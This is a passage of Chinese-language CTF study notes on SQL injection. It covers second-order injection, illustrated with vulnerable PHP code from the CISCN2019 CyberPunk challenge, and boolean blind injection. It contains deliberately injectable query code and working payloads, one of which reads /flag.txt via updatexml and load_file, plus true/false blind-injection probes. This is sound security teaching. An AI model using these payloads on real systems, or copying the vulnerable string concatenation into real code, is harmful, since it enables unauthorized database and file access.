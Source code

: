 ```mysql
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

直接将脏数据取出并拼接到sql语句中，造成了sql注入。



**常见场景**

将保存的脏数据从数据库中取出，再次进行sql操作的场景。

```
修改密码，修改订单等修改已保存信息的地方
注册用户名处
```



**例题**

[CISCN2019 华北赛区 Day1 Web5]CyberPunk

```php
$address = addslashes($_POST["address"]);#可控变量

$sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";#将$_POST["address"]保存到数据库中

$row = $fetch->fetch_assoc();#$row保存sql语句查询结果

$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];#调用了查询结果
```

分析上面两条语句，对可控参数address只进行了转义处理，就保存到数据库中。

并且在update中引用了`$row['address']`，所以在这里存在二次注入。

可以看到列名为old_address，在进行修改时，会将旧地址保存下来，所以我们只要在第一次修改时，在address处注入恶意代码，第二次修改查询旧地址时就会执行恶意代码。

payload

```mysql
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)# 
```



### 盲注--无回显注入

#### 布尔盲注

页面无数据回显，但是有两种返回状态，poc如下

```mysql
?id=1' and 1=1 --+ 	# True
?id=1' and 1=2 --+ 	# False
```

payload

```mysql
?id=1' and 1=子查询 --+  
# 子查询=字符串截取+比较
```
